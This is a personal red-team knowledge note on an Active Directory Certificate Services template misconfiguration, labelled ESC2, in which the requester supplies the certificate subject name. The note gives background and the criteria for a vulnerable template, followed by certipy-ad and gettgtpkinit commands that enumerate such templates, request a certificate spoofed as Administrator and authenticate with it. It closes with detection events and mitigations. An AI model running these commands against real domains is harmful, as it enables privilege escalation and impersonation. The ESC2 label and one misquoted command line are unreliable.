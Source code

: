 ```yaml
---
tags:
  - attack
  - knowledge
  - AD
  - windows
  - redteam
date: 2023-09-1
---
```

- [[ADCS (Active Directory Certificate Services)|AD CS]] misconfiguration.
- [[Certificate Template]] allows user to spoof the subject name field without needing to abuse the SAN field.
- Similiar to [[ESC1]] but no need to mess with SANs.
# Background

- Certificate templates usually define how the subject name is set:
	- from AD (safe).
		- uses requester's own name.
	- supply in the request (dangerous).
		- requester tells the CA `"Hey, this cert is for Administrator"`.
- If `Supply in the Request` is enabled, attacker can set the subject name to anyone.
- Mostly a legacy compatibility path.
- When a cert has:
	- spoofed Common Name (CN) or Subject Name
	- AND the `Client Authentication` EKU.
- AD will trust it during [[PKINIT authentication]] since:
	- [[Kerberos]] falls back to matching against Subject Name if SAN not present.
	- AD does not check if requester is person in Subject Name.
- The same effect as ESC1:

>[!danger]
>Auth as Administrator, without touching the SAN field.
# Vulnerable Template Criteria

- Templates vulnerable to ESC2 if:
	- Subject Name is set to `Supply in the request`.
	- Has the Client Authentication EKU.
	- You have `Enroll` permissions.
	- The CA is issuing from the template.
- Typically found in legacy v1 templates created on old systems but still common.
#  Exploitation

- Find the vulnerable template:
	- `certipy-ad find -u user@corp.local -p 'Password123!' -dc-ip 10.0.0.5 -vulnerable`
	- Look for:
		- Template with SubjectName = Supply in the request.
		- EKU = `Client Authentication`.
		- Enroll permissions granted.
- Request cert with spoofed subject name:
	- `certipy-ad req -u user@corp.local -p 'Password123!' -ca corp-CA -template LegacyTemplate -subject "CN=Administrator -dc-ip 10.0.0.5 -output esc2" `
		- no need to use `-upn` or spoof the SAN.
- Authenticate using the cert:
	- `certipy-ad auth -pfx esc2.pfx -dc-ip 10.0.0.5`
	- `gettgtpkinit.py -pfx esc2.pfx corp.local/Administrator`

# Detection & Logging

- `Event ID 4886` (certificate issued).
- Check for mismatch between certificate SAN and requester.
- `Event ID 4768` (Kerberos AS-REQ).
- Look for:
	- templates allowing "supply in request".
	- certificate subjects not matching requester identities.
# Mitigation

- Don't use `Supply in request` for Subject Name - use `Build from Active Directory`.
- Audit templates:
	- `Get-CATemplate | Where-Object {$_.SubjectNameFlag -match "EnrolleeSupply"}`.
- Restrict enroll permissions.
- Enable manager approval for any legacy templates.